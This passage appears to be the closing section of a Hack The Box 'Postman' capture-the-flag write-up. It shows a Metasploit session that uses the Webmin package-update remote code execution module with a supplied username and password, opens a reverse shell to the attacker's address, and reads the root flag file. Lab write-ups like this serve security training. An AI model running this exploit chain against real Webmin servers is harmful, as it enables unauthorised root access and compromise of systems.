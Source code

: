 ```sh

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf5 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
lhost => 10.10.14.18
msf5 exploit(linux/http/webmin_packageup_rce) > set lport 3131
lport => 3131
msf5 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set ssl true
ssl => true
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts postman.htb
rhosts => postman.htb
msf5 exploit(linux/http/webmin_packageup_rce) > exploit 

[*] Started reverse TCP handler on 10.10.14.18:3131 
[+] Session cookie: 37647b208b7600ffafd270320ce72e5
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.18:3131 -> 10.10.10.160:35718) at 2019-11-16 06:06:30 +0300
whoami

root
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
a2577***************************
```


r00t3d



# Author <a href=" https://twitter.com/root1x">Berat İşler</a> 
---
